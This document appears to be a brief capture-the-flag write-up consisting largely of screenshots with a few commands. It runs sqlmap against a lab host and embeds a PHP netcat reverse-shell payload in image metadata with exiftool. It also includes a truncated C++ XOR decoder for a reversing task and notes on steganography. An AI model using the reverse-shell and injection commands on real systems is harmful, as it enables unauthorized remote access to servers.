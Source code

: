 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/93f21a62-b8f3-4bbb-86fb-2c044a001199)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72bf2211-6966-45ac-b446-6ce76dea7192)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f896c2bc-b5e9-4103-9d85-0495b3a8fb0f)
```
sqlmap -u "http://62.173.140.174:18300/contact.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="name=as&email=d%40d.ru&message=a"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0493d916-2315-4600-94e5-02462f636eb0)
```
exiftool -DocumentName="<?php system('nc IP 1234 -e /bin/bash'); ?>" file.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/222fd2ea-78b4-40b5-aa09-d368967f1602)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7ced86ab-f32f-4b13-8900-ac81d5a976ef)
```
nc -lnvp 1234
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a8dfb044-bbf5-4b52-8156-52085959b4d5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7855fbb-c57d-48f5-8e90-f2ea72b76f8b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d5622e7-4060-4da7-af10-a7dc7dc63ef9)

... revers ing ...

revers.cpp
```
#include <iostream>

int i;
int v12;
int v13;
int v14;
int v15;
int8_t v10;

int main()
{  
    char crypt_bytes[24] = { (char)136, 0x39, 0x3a, 0x34, 0x0b, 0x65, 0x70, 0x14, 0x06, 0x66, 0x66, 0x0e, 0x49, 0x67, 0x74, 0x5d, 0x08, 0x5d, 0x21, char(135), 0x4b, 0x24, 0x5e, 0x16 };
    char clear_bytes[24] = { (char)137, 0x50, 0x4e, 0x47, 0x0d, 0x0a, 0x1a, 0x0a, 0x00, 0x00, 0x00, 0x0d, 0x49, 0x48, 0x44, 0x52, 0x00, 0x00, 0x02, (char)128, 0x00, 0x00, 0x01, 0x56 };
    char login[7] = { 'D', 'E', 'S', '1', 'G', 'N', '\n'};

    v12 = 0;
    v13 = 0;
    v14 = 7;
    v15 = 24;

    for (i = 0; i < 24; ++i)
    {
        if (v14 <= v12)
            v12 = 0;
        if (v15 <= v13)
            v13 = 0;

        v10 = (crypt_bytes[i] + 10) ^ login[v12++] ^ v15 ^ v14 ^ (v14 + (clear_bytes[i] ^ 0x60) - v15) ^ 0x43;

        std::cout << v10 << std::endl;
 ``` 
```
g++ revers.cpp -o revers
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c43fc461-05d9-49bc-afc1-f51036fa03df)

... stega ...

https://fotoforensics.com/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b6bb709e-5498-4daa-9c4c-c291c30acd00)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3db90e76-6baa-4f4f-9346-d90be73d92b3)

https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'UTF8','string':'Anton'%7D,'Standard',false)&input=Kei

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f8ccbac6-8e8e-40a2-b72a-682c55c2be43)
```
ssh thomas@62.173.140.174 -p 18322
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bb11cc18-22f3-4f08-ac21-4dbcdcddb63a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c32e4ea5-dc01-4808-b19b-a27ab5b964ef)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a49418e-580a-485d-bec1-47148ee2dac9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/95ae89f9-0110-4d2e-8976-77bd7e2f1daf)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0a466fad-7437-4d3a-a79f-4b01ca970651)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a860367b-75ae-41f2-9f25-f945e7b5f766)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/89ef61c8-5cf0-4e61-acd2-2d1d409df283)



